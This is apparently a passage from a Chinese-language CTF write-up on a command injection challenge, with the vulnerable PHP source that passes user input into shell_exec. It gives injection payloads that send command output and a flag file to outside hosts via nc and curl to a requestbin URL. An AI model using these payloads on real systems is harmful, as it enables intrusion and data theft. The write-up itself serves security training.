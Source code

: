```curl -i 'xxx/[input]/xxx'``` or
==> ```' + $payload || ls -al && $payload = '```
5. 因為結果不會print 出來 所以要回傳到自己的server
==> ```' + $payload || ls -al | nc ctf.bitx.tw 1234 && $payload = '```

**```nc ctf.bitx.tw 1234```**
是拿來跟server 建立聊天室用的

server上要執行
**```nc -l 1234```**

最終payload 
**```' + $payload || ls -al | cat /flag | nc ctf.bitx.tw 1234 && $payload = '```**

> 解法二 : double quote ( 解法解釋請見 [BABY CMDi](https://hackmd.io/feH6s4g3S0GAAuONsg3s0Q?both#BABY-CMDi)

payload: `'"$(curl http://requestbin.net/r/12zvlvr1 --data "$(ls -ahl /)")"'`


> source code

```htmlembedded=
<head>
<link href="https://fonts.googleapis.com/css?family=IM+Fell+French+Canon+SC" rel="stylesheet">
</head>
<body style="background-color: #fefad0;font-family: 'IM Fell French Canon SC', serif;font-size:20px">

<h1>Youtube Viewer</h1>

Give me a valid youtube id:
<form method="get">
<input type="text" name="v">
<input type="submit">
</form><br><br>
Example: uCLEq9V0-Yk
<br>
I will check your input is valid youtube id or not.
<br><br>
<?php
        $default="uCLEq9V0-Yk";
        if(isset($_GET['v'])) {
                $tmp = $_GET['v'];
                $res = shell_exec("curl -i 'https://img.youtube.com/vi/$tmp/0.jpg'");
                if(strpos($res, "404 Not Found") !== FALSE) {
                        echo "<h3>Q___Q  Your input seems invalid.</h3><br>";
                } else {
                        $default = $tmp;
                }
        }
?>
<iframe id="ytplayer" type="text/html" width="640" height="360"
  src="https://www.youtube.com/embed/<?php echo $default; ?>?autoplay=0"
  frameborder="0"></iframe>


</body>
```

協作者
> [name=MuMu]
> [name=Koios1143]
> [name=nella17]
###### tags: `Web` `SCIST`
